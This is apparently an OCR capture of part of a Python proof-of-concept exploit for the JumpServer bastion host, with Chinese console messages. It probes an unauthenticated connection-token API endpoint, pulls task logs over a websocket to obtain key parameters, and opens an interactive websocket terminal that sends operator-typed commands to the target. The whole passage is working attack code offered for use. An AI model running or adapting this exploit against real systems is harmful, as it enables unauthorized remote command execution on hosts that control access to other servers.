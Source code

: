 ```python
        self.send(req)

    def closed(self, code, reason=None):
        print("Closed down:", code, reason)

    def received_message(self, resp):
        resp = json.loads(str(resp))
        # print(resp)
        data = resp['message']
        if "File" in data:
            data = ""
        print(data)


async def send_msg(websocket, _text):
    if _text == "exit":
        print(f'you have enter "exit", goodbye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(re.findall(r'"data":"(.*?)"', recv_text))


async def main_logic(target_url):
    print("\033[32m[o] 正在连接目标: {}\033[0m".format(target_url))
    async with websockets.connect(target_url) as websocket:
        recv_text = await websocket.recv()
        resws = json.loads(recv_text)
        id = resws['id']
        print("\033[36m[o] 成功获取 ID: {}\033[0m".format(id))

        inittext = json.dumps({"id": id, "type": "TERMINAL_INIT", "data": "{\"cols\":164,\"rows\":17}"})
        await send_msg(websocket, inittext)
        for i in range(7):
            recv_text = await websocket.recv()
            print(re.findall(r'"data":"(.*?)"', recv_text))

        while True:
            cmd = str(input("\033[35mcmd  >>> \033[0m"))
            cmdtext = json.dumps({"id": id, "type": "TERMINAL_DATA", "data": cmd + "\r\n"})
            await send_msg(websocket, cmdtext)
            for i in range(1):
                recv_text = await websocket.recv()
                print(re.findall(r'"data":"(.*?)"', recv_text))


def POC_1(target_url):
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    response = requests.get(url=vuln_url, timeout=5)
    if response.status_code == 401 or response.status_code == 403 or response.status_code == 404:
        print("\033[32m[o] 目标 {} JumpServer堡垒机为未修复漏洞版本，请通过日志获取关键参数\033[0m".format(target_url))
        ws_open = str(input("\033[32m[o] 是否想要提取日志（Y/N） >>> \033[0m"))
        if ws_open == "Y" or ws_open == "y":
            ws = target_url.strip("http://")
            try:
                ws = ws_long('ws://{}/ws/ops/tasks/log/'.format(ws))
                ws.connect()
                ws.run_forever()
                ws.close()
            except KeyboardInterrupt:
                ws.close()
```